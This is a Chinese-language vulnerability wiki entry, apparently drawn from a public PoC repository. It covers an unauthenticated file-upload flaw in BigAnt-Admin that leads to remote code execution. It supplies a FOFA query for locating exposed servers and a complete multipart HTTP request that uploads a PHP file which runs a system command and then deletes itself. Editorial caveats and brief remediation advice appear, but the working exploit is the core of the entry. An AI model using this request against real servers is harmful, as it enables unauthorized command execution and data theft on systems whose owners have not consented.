

# BigAnt-Admin uploadMultipleFile上传执行

## 条目说明

- 对象与具体问题：BigAnt-Admin；uploadMultipleFile上传执行
- 版本、配置及部署条件：PHP可执行上传目录；版本未知
- 认证与权限前提：无Cookie示例
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- PHP执行whoami后unlink自删除，不是无副作用上传验证
- 无响应路径及回读文本，上传到执行转换仅截图
- 具体BigAnt版本/修复与匿名入口证明缺失

## 操作风险

请求可能删除/覆盖数据、修改账号或持久改变业务状态；文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

杭州九麒科技 BigAnt-Admin uploadMultipleFile.html 文件上传致RCE漏洞。这使得未经身份验证的攻击者可以在服务器上传文件执行任意命令，获取敏感数据，实现代码执行。

## 影响版本

杭州九麒科技 BigAnt-Admin

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：app="BigAnt-Admin"

POC/EXP：

```http
POST /Addin/Upload/uploadMultipleFile.html HTTP/1.1
Host: 127.0.0.1
Accept: text/html, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary1zY65etyNeQDfyjX
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

------WebKitFormBoundary1zY65etyNeQDfyjX
Content-Disposition: form-data; name="file"; filename="rce.php"

<?php system("whoami");unlink(__FILE__);?>
------WebKitFormBoundary1zY65etyNeQDfyjX--
```




## 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
